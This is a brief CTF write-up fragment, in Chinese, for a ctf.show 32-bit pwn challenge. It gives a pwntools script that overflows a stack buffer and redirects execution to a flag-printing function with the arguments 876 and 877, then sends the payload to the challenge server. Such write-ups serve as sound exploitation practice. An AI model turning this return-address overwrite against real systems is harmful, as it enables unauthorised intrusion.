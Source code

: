 ![image-20241102144727518](../_media/image-20241102144727518.png)

匹配成功就可以拿到flag了

```
if ( a1 == 876 && a2 == 877 )
    return (char *)printf(s);
```



32位上参数直接就在栈上了



exp：如下

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28146

p = remote(ip,port)
elf = ELF('./pwn')
offset = b'a' * (0x6C + 0x04)
flag_addr = 0x08048586

payload = offset 
payload += p32(flag_addr)
payload += p32(0)
payload += p32(876)
payload += p32(877)

p.recvuntil(b'What do you want?') 
p.sendline(payload)

p.interactive()
```
